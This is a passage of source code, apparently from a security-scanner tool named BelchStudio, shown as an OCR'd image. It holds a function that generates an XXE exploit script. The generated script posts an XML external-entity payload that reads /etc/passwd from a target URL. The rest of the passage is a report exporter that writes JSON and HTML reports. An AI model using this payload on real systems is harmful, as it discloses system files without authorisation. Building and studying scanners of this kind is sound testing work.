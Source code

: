 ```python
        """Generate XXE exploit"""
        return f"""
# XXE Exploit
# Target: {vuln['url']}

import requests

url = "{vuln['url']}"
xxe_payload = '''<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>'''

headers = {{'Content-Type': 'application/xml'}}
response = requests.post(url, data=xxe_payload, headers=headers)
print(response.text)
"""

#### E. Report Export (PDF, JSON, HTML)

```python
class ReportExporter:
    """Export scan results in multiple formats"""

    def export_json(self, results, filename):
        """Export to JSON"""
        import json
        with open(filename, 'w') as f:
            json.dump(results, f, indent=2)

    def export_html(self, results, filename):
        """Export to HTML report"""
        html = f"""
<!DOCTYPE html>
<html>
<head>
    <title>BelchStudio Security Report</title>
    <style>
        body {{ font-family: Arial, sans-serif; margin: 40px; }}
        .critical {{ background: #ff4444; color: white; }}
        .high {{ background: #ff8800; }}
        .medium {{ background: #ffcc00; }}
        .low {{ background: #88ff00; }}
        table {{ width: 100%; border-collapse: collapse; }}
        th, td {{ padding: 12px; border: 1px solid #ddd; }}
        th {{ background: #333; color: white; }}
    </style>
</head>
<body>
    <h1>Security Scan Report</h1>
    <p>Generated: {datetime.now().isoformat()}</p>
    <p>Total Vulnerabilities: {len(results)}</p>

    <table>
        <tr>
            <th>Type</th>
            <th>Severity</th>
            <th>URL</th>
            <th>Description</th>
        </tr>
"""
```